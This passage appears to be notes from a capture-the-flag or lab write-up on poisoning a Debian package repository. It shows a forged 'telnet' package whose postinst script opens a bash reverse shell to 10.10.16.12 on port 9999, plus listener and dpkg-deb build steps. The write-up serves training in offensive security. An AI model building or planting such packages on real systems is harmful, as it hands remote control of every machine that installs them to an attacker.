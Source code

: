 Content of `Packages`:
```
Package: telnet
Version: 0.20-12343
Maintainer: Chenduoduo
Architecture: amd64
Description: Chenduoduo
Section: chenduo
Priority: required
Filename: dists/ascii/main/binary-amd64/telnet.deb
Size: 44203
SHA256: d
```


Create a malicious `telnet` package:
```
mkdir telnet
mkdir telnet/DEBIAN
cd telnet/DEBIAN
```

Create a `control` file:
```
Package: telnet
Maintainer: chenduoduo
Version: 0.20-12343
Architecture: amd64
Description: Chenduoduo
```

Create a `postinst` script:
```
bash -c 'bash -i >& /dev/tcp/10.10.16.12/9999 0>&1'
```

Grant execute permissions to `postinst`:  
![[002 Attachment/Pasted image 20250723000020.png]]  
![[002 Attachment/Pasted image 20250723000137.png]]

Set up listener on port 9999:  
![[002 Attachment/Pasted image 20250723000100.png]]  
![[002 Attachment/Pasted image 20250723000104.png]]

Return to the previous directory and build the `.deb` package:  
![[002 Attachment/Pasted image 20250723000319.png]]

```
dpkg-deb --build telnet/
```
![[002 Attachment/Pasted image 20250723000406.png]]


